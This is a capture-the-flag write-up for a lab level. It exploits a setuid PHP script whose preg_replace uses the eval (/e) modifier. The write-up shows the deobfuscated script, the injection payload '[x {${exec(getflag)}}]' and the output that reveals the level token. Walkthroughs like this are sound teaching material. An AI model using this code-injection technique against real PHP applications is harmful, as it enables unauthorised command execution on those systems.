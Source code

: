 # level06 solution
Given setuid binary which calls php script with provided arguments. If we take a look at provided php script we will find out that it was obusficated, but we can easily deobusficate it via online service and get:

    <?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    $r = x($argv[1], $argv[2]);
    print $r;
    ?>

This php script reads the content of provided file and replace some symbols with preg_replace. First preg_replace function entry in x function is matching any number of any symbols inside round brackets of expression '[x ()]' which is unsafe. We can abuse that by running this script on file with content that match this pattern:

    [x {${exec(getflag)}}]

Anything put inside inner curly brackets will be executed by php script. If we provide file to setuid binary with such content we will get token for the next level:

    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
